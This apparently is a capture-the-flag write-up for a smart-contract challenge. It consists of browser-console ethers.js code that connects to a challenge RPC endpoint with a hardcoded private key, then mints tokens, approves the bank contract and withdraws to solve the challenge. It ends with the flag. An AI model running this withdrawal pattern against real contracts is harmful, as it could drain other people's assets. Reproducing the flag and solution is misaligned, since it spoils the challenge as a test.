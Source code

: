 Step-by-step Exploit Setup
Paste and run this whole block first to reinitialize everything:

```js
(async () => {
  const { ethers } = window;

  const RPC_URL = "http://152.42.220.146:30001/24b17acb-3844-441f-9fe2-2f1a8b5bba42";
  const PRIVKEY = "a7d5dfe57910c2a54332fe84a005e4798c30c07ee3aae20bc661e7eaa36c3933";
  const SETUP_ADDR = "0x52ac3215edF7Cfe1C0292B1457ecfe5af9F88ed9";

  const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
  const wallet = new ethers.Wallet(PRIVKEY, provider);

  window.setup = new ethers.Contract(SETUP_ADDR, [
    "function sedekah() external returns (uint256)",
    "function nft() view returns (address)",
    "function bank() view returns (address)",
    "function isSolved() view returns (bool)"
  ], wallet);

  const nftAddr = await setup.nft();
  const bankAddr = await setup.bank();

  console.log("NFT Address:", nftAddr);
  console.log("Bank Address:", bankAddr);

  window.nft = new ethers.Contract(nftAddr, [
    "function setApprovalForAll(address operator, bool approved) external",
    "function ownerOf(uint256 tokenId) view returns (address)"
  ], wallet);

  window.bank = new ethers.Contract(bankAddr, [
    "function withdraw(uint256[] calldata) external"
  ], wallet);

  console.log("✅ All contracts initialized. You can now call setup, nft, bank in console.");
})();
```

Once that's run, in your browser console you can now try:
1. Check token ownership
   ```js
   await nft.ownerOf(0);
   await nft.ownerOf(1);
   ```
2. Mint again
   ```js
   await (await setup.sedekah()).wait();
   await (await setup.sedekah()).wait();
   ```

3. Approve Bank
   ```js
   await (await nft.setApprovalForAll(bank.address, true)).wait();
   ```

4. Try withdrawing token(s)
   ```js
   await (await bank.withdraw([0])).wait();  // or try [1] or both if you own them
   ```

5. Confirm challenge solved
```js
   await setup.isSolved();
```

prelim{pretty_simple_for_a_start}